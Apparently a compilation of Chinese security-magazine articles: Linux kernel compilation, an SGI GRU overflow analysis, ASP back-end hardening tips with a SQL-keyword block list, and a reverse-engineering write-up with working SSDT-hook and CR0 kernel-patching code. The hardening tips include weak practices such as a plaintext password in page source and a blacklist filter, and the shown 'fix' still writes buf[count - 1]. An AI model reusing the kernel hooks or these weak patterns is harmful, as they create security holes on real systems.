规范首先从版本命名开始，这也是让很多用户觉得眼花缭乱的地方之一。对于 Linux 而言，新版本的内核分两种，一种是 Full Source 版本，另外一种是 patch 文件，即补丁。完整的内核版本比较大，一般是 tar.gz 或者是 .bz2 文件，二者分别是使用 gzip 或者 bzip2 进行压缩的文件。patch 文件比较小，一般只有几十 K 到几百 K；patch 文件是针对于特定的版本的，需要找到自己对应的版本才能使用。内核通常使用 linux-x.y.z 命名，其中 x.y.z 代表版本号。对于稳定树来说，y 是偶数；对于开发树来说，y 比相应的稳定树大 1，因此是奇数。因此，尽管我们也会发现许多网站上都有 2.6.31-rc5 之类的内核，但这并不是当前最稳定的版本。在 Linux 下，可以通过“cat version”命令查看当前的版本。如图 1 所示，当前内核版本为 2.6.18，在本文中，将会对此内核进行升级。


图1

由此可见，Linux 内核的一个优点是“群策群力、集思广益”。全世界任何一个软件工程师都可以将自己的优秀代码加入其中，所以 Linux 修补漏洞的速度快，出现问题之后能够很快得到解决。

##### 2. 内核的作用

那么，内核到底有什么作用呢？现在举一个简单的例子。比如在 Windows 下，越来越庞大的系统往往让普通用户头疼不已，而相对简单的操作系统则让专业用户提襟见肘。如果能够量体裁衣、定制适合自己的系统，岂非美哉？要达到这种效果，就需要重新编译内核。一般来说，Linux 新的内核修订了旧内核的 Bug，并增加了许多新的特性。如果用户想定制一个更高效更稳定的内核，就需要重新编译内核。当然，这在 Windows 下几乎是不可想象的。通常，更新的内核会支持更多的硬件，具备更好的进程管理能力，运行速度更快、更稳定，并且一般会修复老版本中发现的许多漏洞等，经常性地选择升级更新的系统内核是 Linux 使用者的必要操作内容。

比如，要增加对网络功能的支持，可以把相应部分编译到内核中，也可以把该部分编译成模块，动态调用。如果编译到内核中，在内核启动时就可以自动支持相应部分的功能，优点是方便、速度快，缺点是会使内核变得庞大起来。如果编译成模块，就会生成对应的 .o 文件，在使用的时候可以动态加载，优点是不会使内核过分庞大，缺点是需要自己来调用这些模块。在实际使用过程中，建议将经常使用的部分直接编译到内核中，比如网卡功能。

> 内核编译配置的考虑因素：为了正确设置内核编译配置选项，只编译系统需要的功能代码，一般有以下几方面的考虑：自己定制编译的内核运行更快（具有更少的代码）；系统将拥有更多的内存（内核部分将不会被交换到虚拟内存中）；不需要的功能编译进入内核可能会增加被攻击者利用的漏洞；将某种功能编译为模块方式会比编译到内核内的方式速度要慢一些。

除此之外，通过操作系统内核功能的解读，可以了解系统是如何工作的。作为操作系统的核心，内核负责管理系统的进程、内存、设备驱动程序、文件和网络系统，决定着系统的性能和稳定性。

#### 循序渐进，轻松编译 Linux 内核

首先对重要数据进行备份，之后安装一个 Linux 系统。本文以 Red Hat Enterprise Linux 5 为例，接下来安装软件 GCC，同时收集自身计算机上硬件的信息，比如 CPU、内存等设备生产型号和相应参数。

##### 1. 准备工作

- 第1步：切换到 root 用户。编译内核需要 root 权限，以下操作都假定是 root 用户。本文以内核版本为 2.6.30.4 的 `linux-2.6.30.4.tar` 为例，查找并下载一份内核源代码，将其拷贝到 Linux 操作系统的 `/home/cndes/` 目录下。
- 第2步：解压缩源文件。现在解压下载的源程序文件，参考命令：

```bash
# tar -xvf linux-2.6.30.4.tar
# bzip2 -dc linux-2.6.30.4.tar.bz2 | tar xvf -
```

在开源代码中，一般都会有比较正式的帮助文件。在解压的文件目录下包含了 Readme 参考文件，该文件对如何进行内核的解压、配置和安装都给出了详细的解释。

- 第3步：配置内核之前的准备工作。编译内核之前，首先需要对内核进行配置，将源代码树置于一种完整和一致的状态。通过这种调配，可以对新内核功能进行比较详细的设置，使得操作系统的功能更加个性化。通过“make mrproper”命令，可以清除目录下所有的配置文件和先前产生的中间文件，如图 2 所示。完成准备工作后，就可以进入配置阶段了。


图2

- 第4步：配置内核。进入相应的目录，接下来进行内核配置，配置内核可以使用下面命令。建议选择其中之一进行设置。

```bash
#make config      基于文本的配置界面，不推荐使用
#make menuconfig  基于文本的菜单式配置界面，比较灵活，建议使用
#make xconfig     基于图形窗口模式的配置界面，但需要X window的支持
#make oldconfig   适合较小修改
```

这里选择比较常见的“make menuconfig”命令，输入后的界面如图 3 所示。

一般来说，选择相应的配置时有 3 种选择，其中“Y”表示将该功能编译进内核，“N”表示不将该功能编译进内核，“M”表示将该功能编译成可以在需要时动态插入到内核中的模块。在编译内核的过程中，大部分选项可以使用其默认值，只有小部分需要根据用户不同的需要选择。选择的原则是将与内核其他部分关系较远且不经常使用的部分功能代码编译成为可加载模块，这样有利于减小内核的大小，减小内核消耗的内存，简化该功能相应的环境改变时对内核的影响；不需要的功能就不要选，与内核关系紧密且经常使用的部分功能代码，可直接编译到内核中。


图3

设置完毕，还需要使用以下两条命令来清除源代码树，产生相关的文件，命令为：

```bash
#make dep
读取配置过程生成的配置文件
#make clean
删除前面步骤留下的文件
```

其中，“make dep”用于对内核源代码文件的依赖性和完整性进行检查，确保关键文件来自正确的位置；“make clean”用于清除目标文件，确保所有有关文件都处于最新版本状态。

##### 2. 配置与编译内核

- 第5步：对内核和模块进行编译。现在开始进入编译状态了，首先使用以下命令编译产生压缩形式的内核文件。其中，“make bzImage”用于系统硬件资源比较大的时候，可以加快编译的速度。

```bash
#make bzImage 或 make zImage
实现完全编译内核
```

根据机器配置的不同，编译所需的时间各有长短，通常需要 10 多分钟甚至更长。完成后产生的内核文件路径为 /usr/src/linux/arch/i386/boot（默认内核的源代码为 /usr/src/linux），如图 4 所示。


如果选择了可加载模块，还需要对选择的模块进行编译，参考命令为：

```bash
#make modules
###### 生成相应的模块
#make modules_install
###### 拷贝模块到需要的目录中
#depmod -a
###### 生成模块间的依赖关系
```

经过以上步骤，就得到了新版本的内核，大功初告成。不过，为了在启动时能够选择新版本的内核，还需要对 Linux 启动文件进行修改。

- 第6步：修改启动引导器和相关内容。改动参考命令如下：

```bash
#cp /home/cndes/linux-2.6.30.4/System.map /boot/System.map-2.6.30.4test8
#cp /home/cndes/linux-2.6.30.4/arch/i386/bzImage /boot/vmlinuz-2.6.30.4test8
```

以上这两个文件是刚才编译时新生成的。下面修改 /boot 下的两个链接 System.map 和 vmlinuz，使其指向新内核的文件。

```bash
#cd /boot; rm -f System.map vmlinuz
#ln -s vmlinuz-2.6.30.4test8 vmlinuz
#ln -s System.map-2.6.30.4test8 System.map
```

- 第7步：修改启动文件。如果启动引导器为 GRUB，可以直接修改 grub.conf，参考命令为：“# vi grub.conf”。

如果使用 lilo 作为启动引导器，则编辑 /etc/lilo.conf 文件修改系统引导配置，参考命令为：“# vi /etc/lilo.conf”。

下面，以 lilo.conf 修改为例，在原有参数基础上添加以下设置：

```conf
image=/boot/vmlinuz-2.6.30.4test8
label=linux100
read-only
root=/dev/hda2    # 根据需要加以修改
```

在这里，image 表示内核映像的存放地址；label 是启动时供选择的关键字；root 是被加载为根目录的磁盘分区。对 /etc/lilo.conf 编辑之后，运行以下命令并重新启动系统：

```bash
#/sbin/lilo -v
#shutdown -r now
```

在系统重启出现 lilo 启动引导器时，按下“TAB”键并输入 linux100，新内核就可以发挥作用了。

## 受害之路：从Linux内核开始

内核是读懂 Linux 的一个捷径。在熟悉内核的过程中，我们也可以快速学习 Linux 的基本操作命令，了解 Linux 的一些基本功能，从而知道出现 Linux 漏洞的真正原因。比如在 2009 年 7 月出现的“Linux Kernel SGI GRU 驱动单字节溢出漏洞”，原因就在于 Linux kernel 的“drivers/misc/sgi-gru/gruprocfs.c”驱动文件中存在单字节溢出漏洞。内核参考代码为：

```c
static ssize_t options_write(struct file *file, const char __user *userbuf, size_t count, loff_t *data)
{
    unsigned long val;
    char buf[80];
    if (copy_from_user(buf, userbuf, count < sizeof(buf) ? count : sizeof(buf)))
        return -EFAULT;
    buf[count - 1] = '\0';
    if (!strict_strtoul(buf, 10, &val))
        gru_options = val;
    return count;
}
```

仔细分析这段内核代码可以发现，这个函数用于处理对相关 procfs 文件的写操作，仅在用户控制的 count 值小于 sizeof(buf)（根据之前分配，这个值为 80）的情况下才会调用 copy_from_user() 函数。但是，空终止没有执行这个检查便直接使用了受用户控制的 count 值……因此，通过“+w”参数访问 procfs 文件的用户可以向内核内存中的任意位置写入一个空字节。当然，出现这个问题肯定会导致一系列操作系统的问题。很快，在网络上就出现了针对该内核的补丁代码（http://lkml.org/lkml/2009/7/20/348），修改之后的代码如下：

```c
static ssize_t options_write(struct file *file, const char __user *userbuf, size_t count, loff_t *data)
{
    unsigned long val;
    char buf[80];
    memset(buf, 0, sizeof(buf));

    if (strncpy_from_user(buf, userbuf, sizeof(buf)-1) < 0)
        return -EFAULT;
    buf[count - 1] = '\0';
    if (!strict_strtoul(buf, 10, &val))
        gru_options = val;
    return count;
}
```

由此可见，针对内核细节的学习将会使我们受益匪浅，深入探索将会开阔安全视野。这样，无形之中就可以打开多个操作系统之间的屏障，这种学习思路，将会使我们达到事半功倍的效果。

前置知识：无  
关键词：网管、Web 后台、脚本安全

### 中小型企业 Web 后台安全的实现

文／图 Randy

网络发展日新月异，攻防技术也在黑客和管理员的竞争中得到升华和提高。就 Web 后台来说，从最开始的 %5c 暴库、upfile.asp 文件上传技术到后来的数据库防下载、SQL 注入技术，对于中小型企业来说，如何才能在 Web 后台方面做到更安全呢？

本文以 ASP+Access 为例做演示，介绍中小型企业在 Web 后台方面可以采取的安全措施。

发展至今，一般的验证码都可以通过图像识别技术来破解，所以，使用简单的验证码只能延长破解时间，并不能真正防止暴力破解。

现在常用的防暴力破解方法有两个。一个是知识问答，比如需要用户回答“20×3=？”；如果回答错误，就不允许登录。当然，真实的问题问答可能比这个复杂得多，如图 1 所示。

#### 壹 登录界面安全

- 1. 如果可以，不要提供 Web 后台登录界面。如果条件允许，可以用 VB 等软件编写一个简单的登录程序，提交给网站上的登录验证页面，而不是通过 Web 后台登录。
- 2. 增加验证码功能。验证码设计的初衷是为了防止有人暴力破解用户名和密码，但是技术……

另外一个就是多次登录错误锁定 IP 地址。比如，当用户输入用户名和密码错误 5 次后，锁定 IP 30 分钟。

- 3）基于网卡 MAC 地址、硬盘 ID、CPUID 的验证策略。对于中小型企业，可以提供网卡、硬盘 ID、CPUID 的验证策略。因为 ASP 不能直接获取客户端的硬盘 ID、网卡 MAC 地址等信息，所以我们需要用 VB 等软件编写 DLL 控件代替 ASP 来获取客户端的硬件信息。一般步骤如下。

假设制作好的 ActiveX 控件是 GetHardwareInfo.cab，CLSID 是 AAAAAAAA-AAAA-AAAA-AAAA-AAAAAAAAAAAA。提供两个函数 GetYingPanHao() 和 GetWangKaHao()，分别返回硬盘 ID 号和网卡 MAC 地址。

- 第 1 步：在 body 中添加如下 onload 事件。

```html
<body ... onLoad="vbscript:ShowMachineInfo()">
```

- 第 2 步：在表单中添加如下两个隐藏字段。

```html
<form id="Myform" name="Myform">
  <input name="YingPan" type="hidden">
  <input name="WangKa" type="hidden">
</form>
```

- 第 3 步：添加如下 Object。

```html
<OBJECT ID="MyActiveX" CLASSID="CLSID:AAAAAAAA-AAAA-AAAA-AAAA-AAAAAAAAAAAA" codebase="GetHardwareInfo.cab#version=1,0,0,0" width="0" height="0"></OBJECT>
```

- 第 4 步：添加如下函数。

```vb
<script LANGUAGE="VBScript">
sub ShowMachineInfo()
  MyForm.YingPan.value=MyForm.MyActiveX.GetYingPanHao()
  MyForm.WangKa.value=MyForm.MyActiveX.GetWangKaHao()
End Sub
</script>
```

- 第 5 步：在服务器上接收 YingPan 和 WangKa 的值进行判断即可。

```asp
NetworkCardID=replace(request.form("WangKa"),"-","")
HardDiskID=request.Form("YingPan")
```

当然，这些数据需要预先存储于数据库中。

- 4）限制 IP 地址。这个也很好实现，把各个 IP 地址预先存储在数据库中，当用户访问登录页面的时候，获取客户端的 IP 地址并和数据库中的进行比较即可。当然，下面几个方面是需要注意的。

一般的 ADSL Modem 只要不重启，所获得的 IP 地址是不会变的。如果因为特殊原因重启了 Modem，则需要重新在数据库中注册 IP 地址。

对于无线路由，连线方式一般有 3 种：始终连接、当有流量时连接、手动连接。记得一定要选择始终连接，否则每隔几分钟更换一次 IP 地址可能够你忙的。

对于 IP 地址不符合的，我们可以直接给出错误信息；但如果当访问地址不符合的时候，我们直接把页面转向到 404 Not Found 错误页面，是不是更有迷惑性呢？

- 5）使用特殊密码。在登录界面提供一个额外的密码输入框，这个密码直接保存于网页源文件中，不存在于数据库中。比如在密码验证页面中加入如下代码：

```asp
If trim(request("password2"))<>"bleach" then
  '错误信息
End if
```

#### MDB 数据库安全性的实现

- （1）防止 %5c 暴库。虽然绝大部分虚拟主机都已经防范了这个很久远的漏洞了，但不排除有漏网之鱼。至于防范嘛，也不难，记得在数据库连接前（一般是 conn.asp）加上一句“On error resume next”代码即可。
- （2）数据库防下载。这也是老生常谈了，首先可以告诉你，下面两种防下载措施是错误的！第 1 种是更改 MDB 后缀为 ASP；第 2 种是特殊字符法（如加点 %、& 等特殊字符）。这些都不能真正防下载。

一般我使用的是如下办法。第 1 步：访问如下页面 1.asp，记得替换你的真实路径。

```vb
<%
Dim objConn, StrConn, db
' 数据库的文件名，请改成你的文件名。
db = "test.mdb"
Set objConn=Server.CreateObject("ADODB.Connection")
StrConn = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(""&db&"")
objConn.Open StrConn
objConn.Execute("CREATE TABLE nodown (nodown nvarchar(50) WITH COMPRESSION)")
objConn.Execute("insert into nodown (nodown) values ('<%%>')")
objConn.close
Set objConn = Nothing
%>
```

第 2 步：更改 mdb 为 asp，不用特殊字符，访问看看，是不是提示“未结束的 %> 标记”？

- （3）密码策略。你是否还在用 MD5 加密？看看 http://www.cmd5.com/ 吧。11 位及 11 位以下数字、8 位小写字母、7 位小写字母加数字、6 位大小写字母加数字等组合几乎瞬间获得结果。当然，这并不是真的解密，而是在数据库中保存了这些加密后的结果，然后再查询而已。

现在的密码策略需要 MD5+xx 的二次 Hash 操作。或者，使用自己编写的密码加密函数，只要源码不泄露，别人也是没有办法的。

#### 其他安全策略

- 1. 不要使用一些常规目录名、文件名、表名和字段名。比如目录“admin/”“inc/”等，文件 login.asp、upload.asp、upfile.asp、conn.asp 等，数据库表名 admin、users 等。
- 2. 禁止本地提交。对于登录界面、更改密码界面等验证页面，记得加上防本地提交的函数。

```vb
function checkurlfrom()
dim server_v1,server_v2
server_v1 = Cstr(Request.ServerVariables("HTTP_REFERER"))
server_v2 = Cstr(Request.ServerVariables("SERVER_NAME"))
if mid(server_v1,8,len(server_v2))<>server_v2 then
  response.write "<script language=javascript>alert('对不起，不允许本地提交数据!');history.back(-1);</script>"
  response.end
end if
end function
```

- （3）防 SQL 注入函数。这个是真正的老生常谈了，不多说，只提供一个简易的函数。

```vb
function checkinject(aaa)
dim sql_injdata,sql_inj,sql_data
sql_injdata="'|and|exec|insert|select|delete|update|count|*|%|chr|mid|master|truncate|char|declare"
sql_inj=split(sql_injdata,"|")
for sql_data=0 to ubound(sql_inj)
  if instr(aaa,sql_inj(sql_data))>0 then
    response.Write("<script language=javascript>alert('输入了错误的参数，系统将自动关闭');window.close()</script>")
    response.End()
  end if
next
end function
```

- （4）上传页面限制文件格式。对于上传页面，不要使用“不允许上传哪些格式”的策略，而使用“只允许上传哪些格式”的策略。比如下面的测试就不太合适。

```vb
If fileext="asp" or fileext="asa" or fileext="cer" then
  Response.write ("不允许上传asp文件")
  Response.end()
End if
```

而更合适的策略是这样的：

```vb
Sub CheckValidExt(sExt)
Dim b, i, aExt, sAllowExt
sAllowExt="gif|jpg|jpeg|bmp|rar|zip|exe|doc|xls|chm|hlp"
b = False
aExt = Split(sAllowExt, "|")
For i = 0 To UBound(aExt)
  If LCase(aExt(i)) = sExt Then
    b = True
    Exit For
  End If
Next
If b = False Then
  response.Write "<script language=javascript>alert('请选择一个有效的文件名。支持的后缀有 gif|jpg|jpeg|bmp|rar|zip|exe|doc|xls|chm|hlp!');window.close();</script>"
  response.End()
End If
End Sub
```

- （5）对于不必要的东西，一定要删除。比如好多人都使用 eWebEditor，但你保留登录界面等信息是有后患的，而且对你一点帮助也没有。

需要保留“ButtonImage/css/db/dialog/include/sysimage/uploadfile”这几个目录，以及 eWebEditor、asp、PopUp.asp、Upload.asp 等 3 个文件即可。当然，这 3 个 ASP 文件记得要加上 Session 验证。

- （6）后台其他页面。记得把后台除了登录界面、验证登录界面等几个特殊页面外，都加上 Session 和 IP 地址的验证。

但如果有这些方面的设置的话，记得要设置：

- 1. FTP 安全，尝试登录 X 次错误锁定 IP。
- 2. MDB 数据库映射。
- 3. 禁止列目录。
- 4. 禁止发送详细错误信息。
- 5. 禁止 % 转义。

#### 后台日志功能

- 1. 记载登录过程。无论成功登录还是错误登录，都详细记载登录 IP、MAC、登录时间、实际操作等信息，以方便追踪。
- 2. 登录和上次 IP 地址的对比提示。每次用户登录的时候给出提示，类似于 QQ 的界面，弹出一个提示，有上次登录的 IP、时间和 IP 具体的来源信息。

#### 服务器安全类

其实这一部分是虚拟主机供应商的工作。

#### 结语

其实我们的想法很简单：对于数据库，不让你知道数据库地址；知道了地址不让你下载；下载到了获取的密码是非常规加密；即使破解了密码也没有地方登录。对于后台登录，根本不知道后台登录地址；知道地址因为 IP 原因无法显示页面；攻击无线路由得到认证的 IP，因为 MAC 和 HardDisk 验证无法登录；获取客户机器或者通过特殊手段更改 MAC 和 HardDiskID，因为特殊密码无法登录；用社会工程学得到特殊密码登录，发现后台已经记录了你的详细操作。

前置知识：VC、汇编  
关键词：逆向、Local Kernel Debug、VistaLKD

### Windows Vista 下动态开启 Local Kernel Debug 的实现与分析

文/图 ljh(cqupt)

Windows Vista 面世有一段时间了，内核爱好者一定很想仔细探究一下 Vista 的内核里面有了哪些新调用、新函数和新功能。我们平时最常用的内核调试方式自然非 WinDBG 的 Local Kernel Debug 莫属。VM 双机调试严重占用系统资源，经常会卡死以及跑飞等，支持 Vista 的第三方调试器如 Syser 等则还存在各种各样的 bug。只有 WinDBG 简单方便、安全稳定且占用资源少，但是在 Vista 下却默认不支持 Local Kernel Debug 功能，必须运行“bcdedit -debug on”命令且重启之后才行。而我们都知道，一个以调试模式启动的 Windows 和一个正常启动的 Windows 有很多地方是不一样的，我们需要的是调试一个正常的 Windows，而不是 Debug 模式的 Windows。很幸运地在网上找到一个国人小喂写的、DbgTech.net 出品的工具 VistaLKD，能够很好地实现我想要的功能。这个 Cool 的软件我当然想知道它是怎么实现的，于是就简单地逆向了一下它的驱动，知其然还要知其所以然，这样才能不断进步嘛。

用 IDA 打开 VlkdKnl.sys 慢慢分析。从 DriverEntry 开始，先是一小段打印作者及版权信息的 UnicodeString 赋值及 DbgPrint，然后就到了 Sub_10486，跟进去看一下，很容易就看到 IoGetCurrentProcess、_strnicmp 和字符串“System”。经常进行内核编程的应该一眼就能看出这就是大名鼎鼎的 GetProcessNameOffset() 函数。返回刚才的 DriverEntry 里，把 Sub_10486 给 Rename 成 GetProcessNameOffset，再把它的返回值 dword_112E0 改成 Offset。接下来的这个 Sub_101C4 让我都闷了好久，在这个 Sub 里一开始先获得 KdSystemDebugControl 的地址，之后的 sub_10990 这个函数太复杂了，即使是用了传说中的 F5 插件（Hex-Rays decompile plugin）也很麻烦，很难理得清楚。不过里面有一大堆十六进制的数据和 cmp 指令，很容易看出来是在搜特征码。在这儿我用了一个比较取巧的方法，就是动静结合。先静态反汇编 ntkrnlpa.exe 里面的 KdSystemDebugControl 函数，然后使用这个工具开了 Local Kernel Debug，动态反汇编 KdSystemDebugControl 函数，再对比代码，就很容易看出这个函数的操作了。

我的 ntkrnlpa.exe 文件版本为 6.0.6001.18145，ntkrnlpa.exe 里面的 KdSystemDebugControl 函数反汇编代码如下：

```asm
push 0F4h
push offset dword_464AA0
call __SEH_prolog4
xor ebx, ebx
mov [ebp+var_28], ebx
mov [ebp+var_20], ebx
mov [ebp+P], ebx
cmp ds:byte_71BFEA, bl
jnz loc_6810FB
cmp byte_4F6867, bl
jnz loc_6810FB
cmp KdDebuggerEnabled, bl
jz loc_6810FB
...
loc_6810FB:
mov eax, 0C0000022
call __SEH_epilog4
retn 1Ch
```

下面是使用了工具 VistaLKD 之后的 KdSystemDebugControl 函数的反汇编代码：

```asm
lkd> u KdSystemDebugControl l20
nt!KdSystemDebugControl:
81a97bc5  push 0F4h
81a97bca  push offset nt!??_FNODOBFM::`string'
81a97bcf  call nt!_SEH_prolog4
81a97bd4  xor ebx, ebx
81a97bd6  mov dword ptr [ebp-28h], ebx
81a97bd9  mov dword ptr [ebp-20h], ebx
81a97bdc  mov dword ptr [ebp-24h], ebx
81a97bdf  jmp nt!KdSystemDebugControl+0x3e (81a97c03)
81a97be1  jmp 1085:0F81B32F
81a97be8  add eax,1D380000h
81a97bed  ficom word ptr [bx+si+0F81h]
81a97bf2  test dword ptr [eax+1D380000h],eax
81a97bf9  push 0F819493h
81a97bfe  test al,bh
81a97c00  add al,0
81a97c02  add byte ptr [ecx+458BFC5Dh],cl
81a97c08  or byte ptr [ebx-77C0640h],al
```

```asm
mov ecx, dword_112F4
add ecx, eax
mov dword_112E4, ecx
inc edi
cmp edi, 20h
jb short loc_10511
```

根据前面的分析，这段代码很可能就是在找 Patch 的起始地址（第 1 个 cmp [ds:xxxx], bl 的地址），找到地址之后：

```asm
push ebx ;Irp
push ebx ;ChargeQuota
push ebx ;SecondaryBuffer
push 2 ;Length
push ecx ;第一个CMP，Patch的开始地址
call ds:IoAllocateMdl
mov MemoryDescriptorList, eax
cmp eax, ebx
jz short loc_1059F
mov [ebp+ms_exc.disabled], ebx
push ebx ;IoWriteAccess
push ebx ;KernelMode
push eax ;MemoryDescriptorList
call ds:MmProbeAndLockPages
```

可以看出这个工具在 KdSystemDebugControl 函数里面只是 Patch 了一句“jmp nt!KdSystemDebugControl+0x3e (81a97c03)”，它为什么要这么做呢？网上搜索了一下，发现 MJ 大牛对此早有解释：Vista 大部分的 Local Kernel Debug 功能都是通过驱动 kldbgdrv.sys 来实现的，该驱动会获取 KdSystemDebugControl 的地址并存放在其 Device Object Extension 中，KD 和 WinDBG 会通过 DeviceIoControl 和该驱动通讯来实现 Debug 功能，而 KdSystemDebugControl 则会对 _KdDebuggerEnabled、_KdPitchDebugger 和 _KdpBootedNodebug 等 3 个全局变量做校验，若没有开启 Local Kernel Debug，则会返回拒绝访问。

通过创建 MDL，然后修改访问模式实现写只读内存的目的，这种方法最早来自于 Mark Russinovich。到现在 VistaLKD 作者都只是找到地址并修改了访问属性，并没有开始 Patch。接着往下分析，来到最精彩的 sub_10788 函数，这个函数是驱动的 DeviceIoControl 响应例程，Enable Local Kernel Debug 和 Disable Local Kernel Debug 都是在这个函数中处理的。在这个函数里，sub_106F6 负责 Patch，而 sub_1074E 则负责 DePatch。

知道这一点之后就好办了，接下来继续看反汇编代码。VistaLKD 通过 Patch 跳过了 KdSystemDebugControl 对这 3 个全局变量的判断，而 Patch 的地点是第 1 个判断变量的地方“cmp [ds:xxxx], bl”，这句指令的机器码是“381DXXXXXXXX”，而取得 KdSystemDebugControl 地址之后的这段代码为：

```asm
loc_10511:
cmp byte ptr [ecx], 38h
; ecx 为 KdSystemDebugControl 的地址
jz short loc_10531
call sub_10990
```

在 Patch 函数里先是对 KdSystemDebugControl 进行了 Patch，代码如下：

```asm
loc_1070A:
mov eax, PatchStartAddress
mov ax, [eax]
mov OrigCode, ax
cli
mov eax, cr0
and eax, 0FFFEFFFFh
mov cr0, eax
mov eax, PatchStartAddress
mov byte ptr [eax], 0EBh
mov eax, PatchStartAddress
mov byte ptr [eax+1], 22h
mov eax, cr0
or eax, 10000h
mov cr0, eax
sti
```

之后是对 ZwSystemDebugControl 进行 SSDT Hook。有读者可能要问了，你怎么知道是对 ZwSystemDebugControl 进行 Hook 的呢？很简单，因为作者在 blog 上说了是对 ZwSystemDebugControl 和 KdSystemDebugControl 进行了 Hook。我们不看汇编了，直接看我逆向出来的 C 代码吧。

```c
NTSTATUS Hooked_ZwSystemDebugControl
(DEBUG_CONTROL_CODE ControlCode, PVOID InputBuffer, ULONG InputBufferLength, PVOID OutputBuffer, ULONG OutputBufferLength, PULONG ReturnLength)
{
    NTSTATUS Status;
    PEPROCESS eprocess;
    char *str;

    Status = OldZwSystemDebugControl(ControlCode, InputBuffer, InputBufferLength, OutputBuffer, OutputBufferLength, ReturnLength);
    if (ControlCode == 7)
    {
        if (Status == 0xC0000354) // STATUS_DEBUGGER_INACTIVE
        {
            eprocess = IoGetCurrentProcess();
            str = (char *)((char *)eprocess + Offset);
            if (!_strnicmp("WinDbg.exe", str, 0xA))
                Status = 0xC0000002; // STATUS_NOT_IMPLEMENTED
            else
            {
                if (!_strnicmp("kd.exe", str, 0x6))
                    Status = 0xC0000002;
            }
        }
    }
    return Status;
}
```

至于 SSDT Hook 的方法，网上代码已经很多了，不过要注意的是 ZwSystemDebugControl 是个未导出函数，Hook 的时候必须用索引值而不能直接用函数名，所以我定义了 3 个宏来进行 Hook 和 Unhook。

```c
#define SYSTEMSERVICEUNEXPORT(_index) \
    KeServiceDescriptorTable.ServiceTableBase[_index]

#define HOOK_SYSCALLUNEXPORT(_index, _Hook, _Orig) \
    _Orig = (PVOID)InterlockedExchange((PLONG)&MappedSystemCallTable[_index], (LONG)_Hook)

#define UNHOOK_SYSCALLUNEXPORT(_index, _Hook, _Orig) \
    InterlockedExchange((PLONG)&MappedSystemCallTable[_index], (LONG)_Orig)
```

既然都说了 Hook ZwSystemDebugControl 函数，那就顺便也说一下 Patch KdSystemDebugControl 的代码吧。

我写的这个函数和原作者的相比，除了搜特征码定位 Patch 地址的代码相同之外，有两处略微不同。一是前面说过的原作者是使用创建 MDL 后修改访问模式实现写只读内存，而我则是通过修改 CR0 的值来实现；二是跳转的目的地址，原作者是直接硬编码 0x22 进去，而我则是通过特征码动态计算的，也就是第 3 个“cmp [ds:xxxx], bl”的地址再加上 0xc，这段计算的代码熟悉 Inline Hook 的应该很容易就能心领神会。

```c
NTSTATUS PatchKdSysDbgCtrl(void)
{
    UNICODE_STRING uStr;
    char *p;
    int flag;
    int i;
    ULONG *ValueAddress;
    BYTE Value;

    RtlInitUnicodeString(&uStr, L"KdSystemDebugControl");
    p = (char *)MmGetSystemRoutineAddress(&uStr);
    if (p == NULL)
    {
        DbgPrint("Get KdSystemDebugControl Address failed!\n");
        return STATUS_UNSUCCESSFUL;
    }

    DbgPrint("KdSystemDebugControl ptr is %X\n", p);

    flag = 0;
    for (i = 0; i < 150; i++)
    {
        if ((*p == 0x38) && (*(p + 1) == 0x1D)) // cmp [ds:xxxx], bl
        {
            DbgPrint("Find Opcode 'CMP'!\n");
            DbgPrint("Address is %X\n", p);
            ValueAddress = (ULONG *)(p + 2);
            ++flag;
            if (flag == 1)
            {
                PatchAddress = p;
                DbgPrint("Patch Address is %X\n", PatchAddress);
                DbgPrint("The KdpBootedNodebug Address is %X\n", *ValueAddress);
                __asm
                {
                    push eax
                    // ...
                    mov eax,DWORD PTR[ValueAddress]
                    mov eax,DWORD PTR[eax]
                    mov al,BYTE PTR[eax]
                    mov Value,al
                    pop eax
                }
                DbgPrint("The KdpBootedNodebug Value is %d\n", Value);
            }

            if (flag == 2) {
                DbgPrint("The KdPitchDebugger Address is %X\n", *ValueAddress);
                // 第二个cmp处未导出变量为KdPitchDebugger
                __asm {
                    push eax
                    mov eax,DWORD PTR[ValueAddress]
                    mov eax,DWORD PTR[eax]
                    mov al,BYTE PTR[eax]
                    mov Value,al
                    pop eax
                }
                DbgPrint("The KdPitchDebugger Value is %d\n", Value);
            }

            if (flag == 3) {
                DbgPrint("The Last 'CMP'\n");
                DbgPrint("Address is %X\n", p);
                DbgPrint("The Dest Patch Address is %X\n", p+12);
                break;
            }
        }
        p++;
    }

    *((ULONG*)(g_cHookCode+1)) = ((ULONG)(p+12)) - (ULONG)PatchAddress - 5;

    __asm {
        cli
        push eax
        mov eax,cr0
        mov g_cr0,eax
        and eax,not 10000h
        mov cr0,eax
        pop eax
    }

    // 开始Patch
    RtlCopyMemory(g_cOrigCode,(BYTE*)PatchAddress,6);
    RtlCopyMemory((BYTE*)PatchAddress,g_cHookCode,5);

    __asm {
        mov eax,g_cr0
        mov cr0,eax
        pop eax
    }

    // Patch结果
    DbgPrint("Patch OK\n", p);
    return STATUS_SUCCESS;
}

NTSTATUS DeviceIrpCreate(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    DbgPrint(("IrpCreate!\n"));
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}
```

最后就是不使用的时候处理 DePatch 和 Unhook 的事了，原作者的驱动加载了就不能卸载（没有 Unload 例程），所以是在 DeviceIoControl 例程里面处理 DePatch 和 Unhook。而我觉得这样做有些不好，毕竟留一个驱动在内存里还是多多少少要占些资源的，所以我是在 Unload 例程里面处理的。

在此特意感谢下作者小喂和 DbgTech.net，谢谢他提供了一个这么好用的工具。其他细节的地方请大家看随书光盘提供的 IDB 和逆向的驱动代码，该驱动在 IFS DDK+Windows XP SP2 下编译通过，在 Vista Ultimate 6.0.6001 SP1 Build 6001 (32bit) 上加载并成功实现全部功能，如图 1 所示。


图1

最后，关于本文如果大家还有什么问题，欢迎登录黑防论坛与我讨论，我的 ID 是 ljh_cqupt。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

## 前置知识·汇编

关键词：破解，病毒，蝗虫军团病毒


## 破解版析蝗虫军团病毒

文/图 Fahrenheit

前段时间出现了一个被称做“蝗虫军团”的病毒，不仅下载大量非法程序到本地，耗尽系统资源，甚至还盗取用户信息，严重威胁用户的计算机安全。带着怀疑的心情和与它过几招的想法，我找到了蝗虫军团的病毒主体文件，为了解个究竟。

这个版本的蝗虫军团的主体文件只有一个 02.exe，但是其衍生物众多，加起来一共有 6 个文件，图 1 是它们的合影。

